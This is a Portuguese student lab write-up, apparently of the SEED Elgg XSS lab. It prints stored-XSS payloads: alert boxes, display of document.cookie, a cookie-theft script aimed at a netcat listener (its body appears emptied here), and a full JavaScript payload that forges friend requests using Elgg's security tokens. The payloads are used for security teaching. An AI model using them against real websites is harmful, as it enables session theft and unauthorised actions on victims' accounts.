




# Trabalho realizado nas Semanas #7 e #8

## Task 1 - Mostrar uma janela de alerta  
O guião fornece-nos uma lista de utilizadores registados. **Para as tarefas 1 a 3, vamos usar o utilizador 'alice'**. Tal como descrito no guião, editamos o perfil da Alice e escrevemos o seguinte código na sua descrição:

```
<script>alert('XSS');</script>
```

Agora, qualquer utilizador, mesmo que não registado, pode abrir o perfil da Alice e deparar-se com a mensagem gerada pelo código anterior.  

  
*Figura 1 - mensagem de alerta*  

Podemos então concluir que a aplicação web é potencialmente vulnerável a ataques por Cross-Site Scripting (XSS).

## Task 2 - Mostrar os cookies do utilizador
De modo semelhante, podemos variar o código para mostrar os cookies de qualquer utilizador que visite o perfil da Alice. O código injetado será:

```
<script>alert(document.cookie);</script>
```

Novamente, é mostrada uma mensagem para qualquer pessoa que visite o perfil da Alice, agora contendo informação sobre os seus cookies.

  
*Figura 2 - mensagem com cookies* 

## Task 3 - Obter os cookies de outro utilizador
Para esta tarefa, vamos usar também o netcat, que irá estar à espera de uma conexão numa porta TCP, porque o código que vamos injetar vai capturar os cookies de outro utilizador e enviar para o atacante nessa porta. O código é o seguinte:

```
<script>document.write('');
</script>
```

Colocámos o código algures no perfil da Alice, para que quando um utilizador abri-lo, o atacante recebe os seus cookies com o netcat, cujo output será semelhante ao seguinte:

  
*Figura 3 - cookies capturados pelo atacante*  

## Task 4 - Tornar-se amigo da vítima  
O objetivo deste ataque é forçar um pedido para que um utilizador que visite o perfil de outro utilizador se torne automaticamente amigo desse utilizador. Para executar o ataque, temos de perceber como é que um pedido legítimo é feito na aplicação web.  

O guião dá uma estrutura para o código JavaScript a ser injetado:
``` js
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the HTTP request to add Samy as a friend.
var sendurl=...; //FILL IN
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```
Recorrendo à ferramenta de inspeção de HTTP do Firefox, simulamos o caso em que a Alice adiciona o Samy como amigo. O pedido HTTP foi o seguinte:

```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1730714673&__elgg_token=kac0fCHXKu11WekKvKTlBg&__elgg_ts=1730714673&__elgg_token=kac0fCHXKu11WekKvKTlBg

Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/alice
Cookie: Elgg=0c46gu6j7of5ccrlstgt1jmv4o
```

Vamos analisar a estrutura do URL do pedido:
```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1730714673&__elgg_token=kac0fCHXKu11WekKvKTlBg&__elgg_ts=1730714673&__elgg_token=kac0fCHXKu11WekKvKTlBg
```

O URL contém o ID do utilizador a adicionar como amigo. Como é o ID do Samy, iremos precisar desta informação.  
A aplicação web também usa tokens de segurança para validar o pedido, pelo que também serão necessários para construir o código malicioso, daí a criação de duas variáveis para passar os tokens e o pedido ser validado.  

O código final é o seguinte:  
``` js
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the HTTP request to add Samy as a friend.
var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token + ts + token;
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```

Desta vez, vamos usar o utilizador Charlie para testar o ataque. O Charlie visita o perfil do Samy e, se o código funcionar, adiciona automaticamente o Samy como amigo. Como é possível verificar na imagem seguinte, o código funcionou:

  
*Figura 4 - ataque que adiciona o Samy como amigo*  

**Pergunta 1: qual o propósito das variáveis ts e token no código?**  
Como referido anteriormente, a aplicação web utiliza dois tokens de segurança que mudam a cada pedido, por isso não podemos colocar quaisquer tokens diretamente na variável sendurl. Para usar os tokens corretos para o pedido, é necessário capturar em tempo real os seus valores específicos ao pedido e guardá-los em variáveis. Na variável sendurl, usamos essas duas variáveis ao invés de strings fixas passadas diretamente, que fariam com que o pedido não fosse considerado como legítimo e, consequentemente, que ataque não funcionasse.

**Pergunta 2: o ataque funcionaria mesmo que o campo "About Me" não tivesse o modo Text?**  
Não, porque o modo Editor codifica os caracteres "<" e ">" no HTML, o que inviabiliza o ataque. Para o ataque funcionar, é necessário usar o modo Text, que escreve o input tal como está para o HTML.
